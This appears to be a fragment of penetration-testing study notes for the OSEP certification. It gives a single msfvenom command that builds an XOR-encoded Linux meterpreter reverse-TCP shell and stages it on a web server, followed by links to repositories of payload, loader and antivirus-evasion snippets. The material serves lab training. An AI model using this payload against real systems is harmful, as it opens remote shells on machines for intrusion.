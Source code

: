 
## Linux Payload (ELF)

```bash
sudo msfvenom --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 \
  -e x64/xor_dynamic -i 8 -b "\x00" prependfork=true -t 300 -f elf -o /var/www/html/shell.elf
```

---

## References

* [Extravenger/OSEPlayground](https://github.com/Extravenger/OSEPlayground) — Curated OSEP lab snippets: macros/HTA delivery, tunneling, PowerShell loaders, recon helpers.
* [y4ng0615/osep-automate-payloads](https://github.com/y4ng0615/osep-automate-payloads) — Scripts to automate OSEP‑style payload generation and templates.
* [deo-gracias/cybersec](https://github.com/deo-gracias/cybersec) — Mixed cybersecurity notes/tools; good companion references (OSCP/OSEP adjacent).
* [n000b3r/OSCP-Notes](https://github.com/n000b3r/OSCP-Notes) — OSCP notes & command collections; solid foundations for privesc/recon.
* [chvancooten/OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets) — Ready‑made code snippets relevant to OSEP (EDR/AV evasion, loaders, etc.).

---